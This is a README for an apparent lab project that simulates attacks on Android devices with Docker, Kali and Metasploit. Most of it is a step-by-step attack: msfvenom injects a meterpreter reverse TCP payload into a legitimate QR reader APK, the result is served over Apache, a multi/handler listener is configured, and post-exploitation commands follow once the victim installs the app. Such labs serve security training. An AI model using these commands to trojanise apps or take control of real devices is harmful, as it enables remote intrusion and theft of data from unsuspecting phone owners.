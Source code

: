 # androidExploitwithMetasploit

This project aims to simulate an attack scenario against Android devices. Using docker compose file you can simulate a subnet with android device and kali machine inside

## Requirements

1. Docker and docker-compose are installed in your system. Check installation here: https://www.docker.com/
2. This project use a docker image for android device. Check the documentation here: https://github.com/budtmo/docker-android

## Quick start

1. Download Dockerfile and docker-compose.yml from this repository
2. Go inside the directory containing files.
3. Open terminal and run:
```bash
docker-compose up
```
4. Open the browser and check http://localhost:6080 to see android device S10 running.
5. Open the browser and check http://localhost:6081 to see android device S8 running.
6. Open terminal and run:
```bash
docker exec -it kali bash
```
6. Now you can interact with kali linux and metasploit-framework
7. Run nmap checking network devices info into the network 
```bash
nmap -O 172.16.238.0/24
```
# Attack scenario 
## Create malicious apk

1. Create .apk android meterpreter reverse tcp payload with msfvenom command.
2. Inject malware.apk into QRcodeReader.apk (legitimate app) with -x option. 
3. Set LHOST=172.16.238.10 and LPORT=4444. Then save .apk file with -o option:
```bash
 msfvenom -p android/meterpreter/reverse_tcp -x app/QRcodeReader.apk LHOST=172.16.238.10 LPORT=4444 -o malware.apk
```
4. Move generated malware.apk into apache server directory /var/www/html with this command:
```bash
mv malware.apk /var/www/html
```
5. Run apache2 server:
```bash
service apache2 start
```
## Configure metasploit listener 

1. Go on kali and run metasploit-framework:
```bash
msfconsole
```
2. Set generic handler:
```bash
use multi/handler
```
3. Set payload type:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
```
4. Set LHOST:
```bash
set LHOST 172.16.238.10
```
5. Set LPORT:
```bash
set LPORT 4444
```
6. Run exploit:
```bash
exploit
```
7. Well done! Now you can wait victim install the apk file.

## On Android Device

1. On android devices open browser, type 172.16.238.10/malware.apk and download the app.
2. Install malware.apk enabling unknown sources from setting menu. Open the app!

## Post exploit

1. On kali machine you can see new session opened and use meterpreter console. Run help to see all allowed commands
```bash
help
```
2. Run app_list to show all app installed on victim device:
```bash
app_list
```
